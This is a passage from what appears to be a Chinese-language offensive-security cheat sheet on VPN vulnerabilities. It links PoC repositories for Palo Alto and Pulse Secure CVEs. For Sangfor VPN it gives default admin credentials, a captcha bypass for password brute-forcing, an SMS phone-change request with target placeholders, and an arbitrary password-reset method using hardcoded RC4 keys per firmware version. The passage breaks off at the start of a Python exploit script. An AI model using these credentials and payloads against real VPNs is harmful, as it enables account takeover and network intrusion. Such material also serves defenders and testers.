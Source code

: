     - POC | Payload | exp
        - [securifera/CVE-2019-1579](https://github.com/securifera/CVE-2019-1579)

**Pulse_Secure SSL VPN**
- **CVE-2019-11510 Pulse Secure SSL VPN 任意文件读取漏洞**
    - 相关文章
        - [Pulse Secure 任意文件读取（CVE-2019-11510）漏洞](https://www.cnblogs.com/StudyCat/p/11440991.html)

    - POC | Payload | exp
        - [projectzeroindia/CVE-2019-11510](https://github.com/projectzeroindia/CVE-2019-11510)

- **CVE-2019-11539 Pulse Secure SSL VPN 远程代码执行漏洞**
    - [0xDezzy/CVE-2019-11539](https://github.com/0xDezzy/CVE-2019-11539)

**深信服 VPN**
- **常见密码**
    ```
    admin/sangfor@123
    sangfor/sangfor
    test/test
    test1/123456b
    ```

- **口令爆破**
    - POC | Payload | exp
        - https://bbs.sangfor.com.cn/forum.php?mod=viewthread&tid=20633
            ```
            用户登录，若多次尝试登录失败会要求输入验证码，若输入错误的验证码，会提示“校验码错误或校验码已过期”；修改登录请求的数据包，清空cookie和验证码字段的值即可绕过验证码，此时提示“用户名或密码错误”。
            /por/login_auth.csp?apiversion=1sangfor/cgi-bin/login.cgi?rnd=
            ```

- **短信绕过**
    - POC | Payload | exp
        ```
        POST https://路径/por/changetelnum.csp?apiversion=1

        newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1
        ```

- **任意密码重置**
    - POC | Payload | exp
        ```
        某VPN加密算法使用了默认的key,攻击者构利用key构造重置密码数据包从而修改任意用户的密码
        利用:需要登录账号

        M7.6.6R1版本key为20181118

        M7.6.1key为20100720

        POST /por/changepwd.csp

        sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN(脚本计算后结果)
        ```
        ```py
        from Crypto.Cipher import ARC4
        from binascii import a2b_hex
